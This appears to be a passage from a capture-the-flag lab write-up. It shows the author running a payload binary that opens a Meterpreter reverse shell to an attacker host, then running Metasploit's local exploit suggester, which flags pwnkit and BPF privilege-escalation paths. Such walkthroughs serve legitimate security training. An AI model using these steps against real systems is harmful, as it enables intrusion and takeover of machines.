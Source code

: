Trigger payload:

```
www-data@vulnuniversity:/tmp$ chmod +x shell.elf
chmod +x shell.elf
www-data@vulnuniversity:/tmp$ ./shell.elf
./shell.elf
```

We receive shell:

```
[*] Sending stage (1017704 bytes) to 10.10.38.94
[*] Meterpreter session 1 opened (10.8.100.14:5555 -> 10.10.38.94:39544) at 2023-07-01 16:17:15 +0200

meterpreter >
```

## suggester

```
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

[*] Using post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
```

```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.38.94 - Collecting local exploits for x86/linux...
[*] 10.10.38.94 - 176 exploit checks are being tried...
[+] 10.10.38.94 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
[+] 10.10.38.94 - exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec: The target is vulnerable.
[*] Running check method for exploit 14 / 53
..
..
```

